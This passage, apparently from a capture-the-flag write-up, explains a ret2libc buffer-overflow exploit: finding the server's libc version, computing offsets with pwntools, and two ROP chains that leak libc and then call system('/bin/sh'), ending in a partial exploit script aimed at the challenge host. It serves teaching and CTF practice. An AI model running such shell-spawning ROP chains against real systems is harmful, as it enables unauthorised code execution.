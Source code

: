 We need to find out what version of libc is running on the server since different versions have different offsets between the base and functions.  

Luckily there's a tool that finds the right libc version for you based on the address of a libc function.

Download the database and tools [here](https://github.com/niklasb/libc-database) and then run the following:
```console
$ ./find __libc_start_main 0x7fd7206d3fc0 
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.31-0ubuntu9_amd64.deb (id libc6_2.31-0ubuntu9_amd64)
```
This shows us that the server was using the libc6\_2.31-0ubuntu9\_amd64 version. We can use `download libc6_2.31-0ubuntu9_amd64` to download that libc version.  

Note: There is also an online libc database at [https://libc.blukat.me/], but it only works sometimes since its database probably isn't as comphrehensive.

### Exploit
We can use the pwntools python library to find libc offsets.  

This calculates the base libc address by subtracting the offset from \_\_libc\_start\_main
```python3
libc.address = leak - libc.sym["__libc_start_main"]
```

Then by using this libc base address we can find the addresses of system() and "/bin/sh" to spawn a shell.  
Using pwntools:
```python3
BINSH = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
```

For our exploit, we need to be able to call main() twice: once to leak libc and another time to call system().  
We can just append the address of main() to our first ROP chain to accomplish this.  

First ROP chain:
```python3
base = b"A"*256 + b"B"*8 #Overflow buffer until return address
rop = base + p64(POP_RDI) + p64(LIBC_START_MAIN) +  p64(PUTS) + p64(MAIN)
```

Then our second rop chain will call system:
```python3
rop2 = base + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)
```

Combine the above into a script:
```python3
""" The following script was based heavily on the script provided in the following url """
"""           https://tasteofsecurity.com/security/ret2libc-unknown-libc/              """

#!/usr/bin/python3

from pwn import * # Import pwntools

p = remote("chals20.cybercastors.com", 14425)
#p = process("./bof") # start the vuln binary
elf = ELF("./bof") # Extract data from binary
rop = ROP(elf) # Find ROP gadgets
libc = ELF("./libc-2.31.so")

# Find addresses for puts, __libc_start_main and a `pop rdi;ret` gadget
PUTS = elf.plt['puts']
MAIN = elf.symbols['main']
LIBC_START_MAIN = elf.symbols['__libc_start_main']
```